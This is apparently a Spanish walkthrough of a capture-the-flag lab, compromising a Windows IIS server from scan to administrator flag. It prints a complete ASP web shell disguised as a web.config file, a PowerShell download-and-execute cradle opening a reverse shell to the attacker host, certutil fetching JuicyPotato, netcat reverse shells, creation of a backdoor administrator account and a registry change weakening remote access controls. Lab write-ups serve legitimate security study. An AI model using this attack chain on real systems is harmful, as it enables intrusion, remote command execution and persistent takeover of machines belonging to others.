
reconocemos rapidamente las ip vivas
nmap -sn 192.168.56.0/24

miramos si es ese SO
nmap -O 192.168.56.106

vamos al puerto 80

ctrl+u y ctrl+shift+i

sacamos mas info de http 80

Usamos dirbuster

encontramos 4 directorios
´

aqui tenemos para subir archivos

en la pagina de zac.apsx, vemos en el codigo una path

dice que no encuentra el recurso

puede ser lo que haya que subir

http://192.168.56.106/Subiditosdetono/web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<handlers accessPolicy="Read, Script, Write">
<add name="web_config" path="*.config" verb="*" modules="IsapiModule"
scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified"
requireAccess="Write" preCondition="bitness64" />
</handlers>
<security>
<requestFiltering>
<fileExtensions>
<remove fileExtension=".config" />
</fileExtensions>
<hiddenSegments>
<remove segment="web.config" />
</hiddenSegments>
</requestFiltering>
</security>
</system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
Dim objShell, objCmdExec
Set objShell = CreateObject("WScript.Shell")
Set objCmdExec = objshell.exec(thecommand)
getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
<%Response.write("<!-"&"-") %>
-->


ya tengo un cmd


con este sacamos los usuarios de sistema


Obtenemos flag de usuario

ahora toca administrador, con el dir no vemos su carpeta logicamente

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

es antiguo, nos da error en el 1 y 3, usamos pyhton2


powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.56.10 -Port 4444
ya tenemos powehsell
nc -vlp 4444


descargamos https://github.com/ohpe/juicy-potato/releases/tag/v0.1




se ha quedado pillado, volvemos a subir el confg


queremos escuchar con meterpreter
lanzamos python2

escuchamos por msfconsole

lanzamos
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.56.10 -Port 4444
ya lo tenemos con msfconsole





tarda un pelin

lanzamos jp
certutil -urlcache -f http://192.168.56.10/jc.exe C:\Windows\Temp\jc.exe

si sale este error, es que tenemos que lanzar el exe con la ruta completa



C:\Windows\Temp\jc.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
https://gitee.com/yijingsec/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
en esta pagina salen lo que tenemos que poner en -c segun el sistema


C:\Windows\Temp\jc.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -k 192.168.56.10 -p4445
ip kali y puerto a escucha 4445
nc -vlp 4445

C:\Windows\Temp\jc.exe -l 1337 -p C:\Windows\Temp\nc.exe -a "192.168.56.10 4445 -e cmd.exe" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
C:\Windows\Temp\jc.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user hacker Password123! /add" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
C:\Windows\Temp\jc.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administradores hacker /add" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"

no hay permisos para acceder desde fuera

modificamos con juice
C:\Windows\Temp\jc.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"

ahora si!!!

Obtenemos flag de root